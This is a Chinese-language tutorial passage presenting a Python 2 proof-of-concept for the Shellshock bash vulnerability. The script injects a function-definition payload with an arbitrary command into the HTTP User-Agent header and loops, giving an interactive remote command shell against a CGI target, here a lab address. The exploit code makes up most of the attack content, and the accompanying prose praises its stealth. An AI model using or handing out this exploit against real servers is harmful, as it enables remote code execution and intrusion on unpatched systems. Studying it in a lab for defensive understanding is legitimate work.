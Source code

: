 下面这段Python写的Poc的代码非常的酷(屌哒哒),用户根本感觉不到发生了什么事情.
这个Poc执行后就和系统的命令终端一样,不过这个Poc它的目的却与系统的不同.这个Poc会修改浏览器的User-Agent
信息,然后不停的向攻击主机发送一个恶意的指令(这里是执行某个特定的命令).

下面这段代码封装了一个无限循环,通过raw_input获取用户输入的终止标记，最后提交请求,从下面的这段代码你可以看到
如何去完成一个HTTP请求以及如何修改User-Agent的内容：

```
#!/usr/bin/python
import sys, urllib2    #导入需要使用的模块
 
if len(sys.argv) != 2:    # 检查输入命令的格式是否正确 "<script> <URL>"
  print "Usage: "+sys.argv[0]+" <URL>"
  sys.exit(0)
 
URL=sys.argv[1]        # 把测试的URL输出显示出来
print "[+] Attempting Shell_Shock - Make sure to type full path"
 
while True:        # 通过raw_input来获取用户输入的值,如果是"~$"就停止执行 
  command=raw_input("~$ ")
  opener=urllib2.build_opener()        # 修改默认的请求头部,把修改后的User-Agent包含进去
  opener.addheaders=[('User-agent', '() { foo;}; echo Content-Type: text/plain ; echo ' /bin/bash -c "'+command+'"')]
  try:                    # 使用Try/Except 进行错误处理
    response=opener.open(URL)    #提交请求并且显示响应结果
    for line in response.readlines():
      print line.strip()
  except Exception as e: print e
```
下面的图片是这个脚本执行后的截图,正在测试ip地址为http://192.168.56.101
的系统,你可以很清晰的看到执行之后会生成一个和真实命令终端几乎是一样的．
大家其实可以看到这个脚本只是对测试系统发送了一个HTTP请求.其他的什么也没有
做.不过最后一张图展示了具体的细节部分:

![shell1](/zh-cn/img/0x131.png)

![shell2](/zh-cn/img/0x132.png)
